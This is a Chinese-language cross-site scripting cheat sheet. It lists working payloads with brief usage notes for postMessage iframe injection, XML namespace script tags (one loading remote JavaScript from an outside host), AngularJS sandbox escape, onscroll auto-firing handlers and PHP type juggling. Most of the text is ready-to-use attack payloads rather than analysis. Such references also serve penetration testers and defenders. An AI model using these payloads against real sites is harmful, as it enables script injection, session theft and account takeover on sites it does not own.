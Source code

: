 

## Javscript postMessage() DOM注入（使用Iframe）

**用于当`Javascript`代码中存在未检查来源的`message`事件监听器（如`window.addEventListener('message', ...)`）时。目标页面必须能够被嵌入到`iframe`中（根据上下文检查`X-Frame-Options`头）。保存为HTML文件（或使用`data:text/html`），并提供`TARGET_URL`和`INJECTION`（XSS payload或Payload）   **

**攻击原理：攻击者通过创建一个包含目标页面的 iframe，并使用 `postMessage()` 向目标页面发送恶意消息。由于目标页面未验证消息的来源，恶意消息会被处理并执行注入的 XSS payload。**

```
<iframe src=TARGET_URL onload="frames[0].postMessage('INJECTION','*')">
```



## XML XSS

**用于XML页面（内容类型为`text/xml`或`application/xml`）中注入XSS payload。如果输入位于注释部分，则在payload前添加`-->`；如果输入位于`CDATA`部分，则在payload前添加`]]>` **

```javascript
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>
```



## AngularJS 注入（v1.6 及以上版本）

**用于当页面中加载了`AngularJS `库，并且存在带有`ng-app`指令的HTML块时（用第一个`payload`），创建自己的`Angular JS`应用（使用第二个payload）**

```javascript
{{$new.constructor('alert(1)')()}}
<x ng-app>{{$new.constructor('alert(1)')()}}
```



## Onscroll 通用攻击方法

**用于在无需用户交互的情况下触发`XSS`，利用`onscroll`事件处理程序，它适用于以下`HTML`标签 ：` address`, `blockquote`, `body`, `center`, `dir`, `div`, `dl`, `dt`, `form`, `li`, `menu`, `ol`, `p`, `pre`, `ul`, 以及 `h1` 到 `h6 **

```javascript
<p style=overflow:auto;font-size:999px onscroll=alert(1)>AAA<x/id=y></p>#y
```



## Type Juggling

**用于在松散比较（比如PHP中的==）中通过`if`条件匹配一个数字**

```javascript
1<svg onload=alert(1)>
1"><svg onload=alert(1)>
```

